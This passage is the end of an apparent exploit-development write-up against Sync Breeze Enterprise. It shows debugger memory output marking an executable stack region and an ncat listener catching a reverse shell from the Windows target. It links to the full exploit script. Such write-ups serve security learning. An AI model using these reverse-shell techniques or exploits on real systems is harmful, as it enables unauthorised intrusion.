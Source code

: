 ```
Mapping stack trace database regions...
Mapping activation context regions...

Usage:                  Stack
Base Address:           02cbf000
End Address:            02cc0000
Region Size:            00001000 (   4.000 kB)
State:                  00001000          MEM_COMMIT
Protect:                00000040          PAGE_EXECUTE_READWRITE
Type:                   00020000          MEM_PRIVATE
Allocation Base:        02bc0000
Allocation Protect:     00000004          PAGE_READWRITE
More info:              ~7k

Content source: 1 (target), length: 4a0
```

Which means shell time!
```
ncat -vlnp 9001
Ncat: Version 7.95 ( https://nmap.org/ncat )
Ncat: Listening on [::]:9001
Ncat: Listening on 0.0.0.0:9001
Ncat: Connection from 192.168.1.254:55191.
Microsoft Windows [Version 10.0.19045.4957]
(c) Microsoft Corporation. All rights reserved.

C:\Program Files (x86)\Sync Breeze Enterprise\bin>

```
 
SHELL!!
## Fin
That derailed kinda quickly, towards the end I left out most of the debugging issues, as it was just me doing dumb stuff and not mathing right.

Surely there are better ways to optimise this and maybe use better gadgets, so I might revisit this later.

Full script is on github: https://github.com/ElJayRight/pocscripts/blob/main/sploit.py
